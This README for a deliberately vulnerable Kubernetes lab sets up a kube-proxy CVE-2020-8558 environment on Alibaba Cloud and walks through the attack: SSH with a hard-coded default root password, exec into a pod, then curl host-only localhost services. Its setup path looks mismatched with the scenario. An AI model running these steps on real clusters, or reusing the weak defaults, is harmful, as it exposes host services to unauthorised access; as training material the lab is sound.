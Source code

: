 # kube-proxy CVE-2020-8558 Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the kube-proxy "CVE-2020-8558" vulnerability environment.

After building the environment with Terraform, users in pod can access host's services which is bind on only "127.0.0.1" address.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/kubernetes/kubelet/log-mount
```

Configure Alibaba Cloud Access Credentials

```shell
export ALICLOUD_ACCESS_KEY="LTAI5tFkmNGXXXXXXXXX"
export ALICLOUD_SECRET_KEY="ORBs2lulAHDXXXXXXXXX"
export ALICLOUD_REGION="cn-hongkong"
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/20220622-174141.jpg)

After the environment is set up, You can see the kubelet api access address of the scenario at Outputs.

## Vulnerability Utilization

first, we need to log in node host via ssh, the default password is "Huoxian@123"

```shell
➜  ~ ssh root@8.210.237.96  // 8.210.237.96 is node ip, you need replace it with what is in above "Outputs"
```

then, we can log in pod which have been created

```shell
root@iZj6ce4bmwc11otulk7i3rZ:~# kubectl exec -ti test-pod -- sh      // test-pod is pod name
sh-4.2#
```

now, we can access host's services which is bind on only "127.0.0.1" address.

```shell
root@iZj6ce4bmwc11otulk7i3rZ:~# netstat -antp|grep 127.0.0.1
tcp        0      0 127.0.0.1:37953         0.0.0.0:*               LISTEN      2551/containerd
tcp        0      0 127.0.0.1:41351         0.0.0.0:*               LISTEN      15900/kubelet
tcp        0      0 127.0.0.1:10248         0.0.0.0:*               LISTEN      15900/kubelet
...
```

for example，we can access host's kubelet metrics service in pod.

```shell
sh-4.2# curl 127.0.0.1:10249/metrics --interface eth0
# HELP apiserver_audit_event_total [ALPHA] Counter of audit events generated and sent to the audit backend.
# TYPE apiserver_audit_event_total counter
apiserver_audit_event_total 0
...
```

## Destroy the environment

```shell
terraform destroy
```
